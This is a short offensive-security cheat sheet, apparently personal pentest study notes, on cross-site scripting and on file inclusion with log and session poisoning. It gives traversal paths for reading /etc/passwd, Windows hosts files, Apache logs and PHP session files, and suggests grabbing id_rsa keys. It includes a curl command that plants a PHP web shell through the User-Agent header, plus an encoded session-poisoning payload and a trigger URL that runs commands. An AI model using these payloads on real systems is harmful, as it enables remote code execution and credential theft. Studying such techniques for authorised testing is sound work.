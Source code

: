### Cross-Site Scripting
> **Special characters:** 
> * `< > ' " { } ;`

**[XSSStrike:](https://github.com/s0md3v/XSStrike)** XSS scanner
**[PayloadsAllTheThings:](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)** XSS Injection payloads

### Directory Traversal / File Inclusion (LFI/RFI) / Log Poisoning
> **Notes:**
> * Use curl to get better formatting
> * If we retrieve the passwd file, try to retrieve `id_rsa` files
> * Encode characters if needed
> * Check for log poisoning in **Apache** servers
> * Use **[LFITester](https://github.com/kostas-pa/LFITester)**

Configuration files and dangerous settings:
* Configuration file for Apache: `/etc/php/X.Y/apache2/php.ini`
* Configuration file for Nginx: `/etc/php/X.Y/fpm/php.ini`

	Settings:
	* `allow_url_include`: Allow RCE through wrappers and RFI
	* `extension=expect`: Allow RCE through `expect` wrapper

| **Files to try**                                                           | **Description**                             |
| -------------------------------------------------------------------------- | ------------------------------------------- |
| `/index.php?page=../../../../etc/passwd`                                   | Linux                                       |
| `/index.php?page=../../../../Windows/System32/drivers/etc/hosts`           | Windows 1                                   |
| `/index.php?page=..\..\..\..\Windows\System32\drivers\etc\hosts`           | Windows 2                                   |
| `/index.php?page=../../../../var/log/apache2/access.log`                   | Apache (log poisoning)                      |
| `/index.php?page=../../../../xampp/apache/logs/access.log`                 | Apache (log poisoning) in XAMP 1            |
| `/index.php?page=..\..\..\..\xampp\apache\logs\access.log`                 | Apache (log poisoning) in XAMP 2            |
| `/index.php?page=../../../../var/lib/php/sessions/sess_<PHPSESSID Cookie>` | PHP Session Poisoning with PHPSESSID cookie |

If we retrieve Apache access log, insert php code in the User-Agent header of the original request to trigger Log Poisoning vulnerability, then you can see the command output in the log file

> [!warning] Do no forget to try both Linux and Windows commands in log poisoning execution

Through curl: `curl -s ".../meteor/index.php" -A '<?php system($_GET["cmd"]); ?>'`

![](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PWKR/imgs/commonwebattacks/a5768a72a99581707edad7a81a481e3a-cwa_lfi_modfirstreqcom.png)

If we retrieve PHP session file we can insert a payload through the vulnerable parameter and then trigger it visiting the PHP session file:
* Inserting the payload: `...index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`
* Triggering the payload: `...index.php?language=/var/lib/php/sessions/sess_<PHPSESSID Cookie>&cmd=id`
